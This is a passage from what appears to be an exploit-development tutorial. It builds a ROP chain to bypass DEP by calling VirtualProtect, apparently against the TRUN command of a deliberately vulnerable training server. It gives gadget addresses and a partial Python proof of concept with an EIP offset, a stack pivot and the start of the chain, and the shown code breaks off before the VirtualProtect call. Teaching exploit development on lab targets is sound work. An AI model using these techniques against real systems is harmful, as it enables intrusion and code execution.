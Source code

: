 Now EAX contains an address that is around our shellcode, and will lead to execution of shellcode when it is returned to after the `VirtualProtect()` call, via a NOP sled:

<img src="{{ site.url }}{{ site.baseurl }}/images/DEP32.PNG" alt="">

<img src="{{ site.url }}{{ site.baseurl }}/images/DEP33.PNG" alt="">

Up until this point, you may have been asking yourself, "how the heck are those parameters going to get changed to what we want? We are already so far down the stack, and the parameters are already placed in memory!" Here is where the cool (well, cool to me) stuff comes in.

Let's recall the state of our registers up until this point:

1. __ECX__: location of `return` parameter placeholder
2. __EDX__: location of `lpAddress` parameter placeholder
3. __EAX__: location of shellcode (NOPS in front of shellcode)

Essentially, from here - we just want to change what the memory addresses in ECX and EDX point to. Right now, they contain memory addresses - but they are not pointers to anything.

With a `mov dword ptr ds:[ecx], eax` instruction we could accomplish what we need. What `mov dword ptr ds:[ecx], eax` will do, is take the DWORD value (size of an x86 register) ECX is currently pointing to (which is the `return` parameter) and change that value, to make that DWORD in ECX (the address of `return`) point to EAX's value (the shellcode address).

To clarify - here we are not making ECX point to EAX. We are making the `return` address point to the address of the shellcode. That way on the stack, whenever the memory address of `return` is anywhere, it will automatically be referenced (pointed to) by the shellcode address.

We also need to do the same with EDX. EDX contains the parameter placeholder for `lpAddress` at the moment. This also needs to point to our shellcode, which is contained in EAX. This means an instruction of `mov dword ptr ds:[edx], eax` is needed. It will do the same thing mentioned above, but it will use EDX instead of ECX.

Here are two ROP gadgets to accomplish this:

```
0x6ff63bdb: mov dword [ecx], eax ; pop ebp ; ret  ;  msvcrt.dll
0x77e942cb: mov dword [edx], eax ; pop esi ; pop ebp ; retn 0x000C ;  kernel32.dll
```

As you can see, there are a few `pop` instructions that need to be accounted for. We will add some padding to the updated POC, found below, to compensate:

```python
import struct
import sys
import os
import socket

# Vulnerable command
command = "TRUN ."

# 2006 byte offset to EIP
crash = "\x41" * 2006

# Stack Pivot (returning to the stack without a jmp/call)
crash += struct.pack('<L', 0x62501022)    # ret essfunc.dll

# Beginning of ROP chain

# Saving ESP into ECX and EAX
rop = struct.pack('<L', 0x77bf58d2)  # 0x77bf58d2: push esp ; pop ecx ; ret  ;  (1 found)
rop += struct.pack('<L', 0x77e4a5e6) # 0x77e4a5e6: mov eax, ecx ; ret  ;  (1 found)

# Jump over parameters
rop += struct.pack('<L', 0x6ff821d5) # 0x6ff821d5: add esp, 0x1C ; ret  ;  (1 found)

# Calling VirtualProtect with parameters
```